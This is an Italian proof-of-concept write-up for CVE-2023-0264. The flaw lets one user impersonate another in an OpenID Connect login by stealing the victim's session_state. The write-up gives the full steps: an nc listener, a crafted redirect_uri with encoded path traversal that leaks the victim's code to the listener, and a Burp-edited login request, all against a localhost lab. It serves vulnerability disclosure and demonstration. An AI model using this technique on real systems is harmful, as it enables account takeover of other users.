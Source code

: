 # CVE-2023-0264 User impersonation via stolen UUID code

- creazione di due utenti, `paola` e `mario` per esempio.
- attivazione un listner `$ nc -lvnp 1234`
- autenticazione dell'utente `paola`, l'utente vittima, utilizzando il link descritto nella CVE precedente e qui di seguito riportato:

```shell
https://localhost:4200/realms/winted/protocol/openid-connect/auth?
client_id=winted-web&
redirect_uri=
https%3A%2F%2Flocalhost%3A4200%2Flogin%2f%252E%252E%2fvuln?
url=http%3A%2F%2Flocalhost%3A1234&
response_mode=fragment&
response_type=code&
scope=openid
```
session_state=cf59cacc-d1e2-4be6-a63c-5d98eacc91ca

- cattura e conservazione del `session_state` perché servirà nei passaggi successivi. Questo parametro rappresenta il `session_id` dell'utente vittima, in questo caso l'utente `paola`. Si noti che la parte centrale del parametro `code` coincide con il `session_state` stesso.

```shell
GET /?state=0a1aeed9-19ae-4f77-b59b-5e7bfe9c5bf6&
session_state=231fd8bc-2259-417b-9887-a4dcfb9c8f46&
code=d310bb8c-883c-477c-bff3-5e33922a9169.
231fd8bc-2259-417b-9887-a4dcfb9c8f46.
f4e96ce3-fdb3-412d-8ab3-264dd456e096 HTTP/1.1
Host: localhost:1234
```

- si è effettuato il logout dell'utente `paola`
- si è verificato che non vi erano più nessun cookie salvato
- si è attivato Burp e si è attivato il proxy
- si è effettuato il login come `mario`, l'utente malevolo
- si è provveduto a forwardare tramite Burp tutte le richieste fino ad arrivare alla richiesta qui di seguito riportata:

```shell
GET https://localhost:4200/login?
session_state=050681a9-f5d5-4a5b-9c7e-db1e6571b439&
code=c4dd3ba8-1128-4747-b771-b677e4b8ad0d.
050681a9-f5d5-4a5b-9c7e-db1e6571b439.
f4e96ce3-fdb3-412d-8ab3-264dd456e096
```

- in fine si è proceduto a modificare l'url inserendo il `session_state` della vittima catturato prima:

```shell
GET https://localhost:4200/login?
session_state=<SESSION_STATE_VITTIMA>&
code=c4dd3ba8-1128-4747-b771-b677e4b8ad0d.
<SESSION_STATE_VITTIMA>.f4e96ce3-fdb3-412d-8ab3-264dd456e096
HTTP/1.1
Host: localhost:1234
```

- Il processo termina inviando la richiesta

# Demo

Video demo [qui](https://videolink)
